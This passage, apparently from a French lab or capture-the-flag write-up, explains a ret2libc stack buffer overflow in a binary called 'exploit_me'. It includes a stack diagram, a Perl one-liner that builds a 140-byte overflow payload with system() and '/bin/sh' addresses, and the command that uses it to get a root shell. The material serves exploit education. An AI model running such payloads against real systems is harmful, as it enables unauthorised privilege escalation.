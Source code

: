 ```
```
Avant de remplir notre `buffer`, notre `stack` est semblable à celle ci dessous :
```
---------------------- esp
[buffer[140]]
---------------------- ebp
[reg]
[reg]
[...]
```
En remplissant plus de `140` octets dans notre `buffer`, nous somme capable d'écrire dans les registres suivants. Nous pouvons donc créer un buffer qui, avec un overflow, écrira nos instructions `system` dans les registres suivants. Nous devons suivre ce schéma :
```
[ Buffer permettant d'atteindre l'overflow ] [ Adresse system() ] [ Adresse retour ] [ Adresse "/bin/sh" ]
```
Cette commande Perl permet de générer notre buffer :
```perl
perl -e 'print "A"x140 . "\x60\xb0\xe6\xb7" . "OSEF" . "\x58\xcc\xf8\xb7"'
```
En exécutant la commande suivante, on est capable de lancer un shell avec les droits administrateur :
```
./exploit_me `perl -e 'print "A"x140 . "\x60\xb0\xe6\xb7" . "OSEF" . "\x58\xcc\xf8\xb7"'`
```

